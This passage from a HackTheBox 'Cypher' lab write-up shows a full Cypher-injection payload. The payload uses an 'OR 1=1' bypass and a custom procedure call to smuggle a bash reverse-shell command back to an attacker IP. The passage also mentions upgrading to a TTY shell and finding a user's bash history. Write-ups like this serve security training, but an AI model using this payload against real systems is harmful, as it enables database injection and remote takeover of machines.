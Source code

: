 
### Reverse Shell

Payload: **test' OR 1=1 WITH 1 AS x CALL custom.getUrlStatusCode(\"http://10.10.14.13:8000/helloWorld;bash -c 'bash -i >& /dev/tcp/10.10.14.13/8443 0>&1'\") YIELD statusCode AS y RETURN y as hash //**

![6bd4a0372389d3566fc151c65b101159.png](/images/HackTheBox/HTB-Cypher/6bd4a0372389d3566fc151c65b101159.png)

Switching full tty shell

![ead795ec488b292280f019798b670d29.png](/images/HackTheBox/HTB-Cypher/ead795ec488b292280f019798b670d29.png)

Generally in HTB environment `.bash_history` is linked to `/dev/null` When i look the neo4j user home directory the `.bash_history` is not empty and didn't linked to `/dev/null`
